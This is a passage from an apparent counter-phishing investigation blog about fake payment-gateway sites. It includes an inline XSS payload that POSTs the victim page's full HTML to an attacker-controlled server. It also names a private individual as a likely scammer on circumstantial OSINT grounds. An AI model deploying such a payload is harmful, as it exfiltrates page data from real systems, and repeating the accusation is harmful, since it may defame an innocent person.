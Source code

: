 Both the IPs had RDP and OpenVPN enabled, they are most likely a VPS server as suggested by a friend of mine, used as a pivot point to prevent revealing their real IPs.

Post this, i kinda hit a wall, i tried multiple things around leveraging XSS to get more data, one such attempt worth mentioning is, base64 encoding the current HTML document and sending it over to a server controlled by me. In this manner, if the data is loaded anywhere else, in any other document, it would give me the entire HTML document, which could provide more information to play with.

```js
<script>const xhr = new XMLHttpRequest();xhr.open('POST', 'https://my-server/data');xhr.send(btoa(escape(encodeURIComponent(document.documentElement.outerHTML))));</script>
```
## Potential Suspect 

Even though i cannot directly comment on who the scammer is, but there are pieces of information when connected, can show us a direction. Every ad  posted by `Vijay Barbhaya` is of these phishing websites.

![t](/Images/razorpay/14.png){:.shadow}

On doing some OSINT, i saw, the skill set of `Vijay Bharbhaya` matched the tech-stack used by the phishing applications.

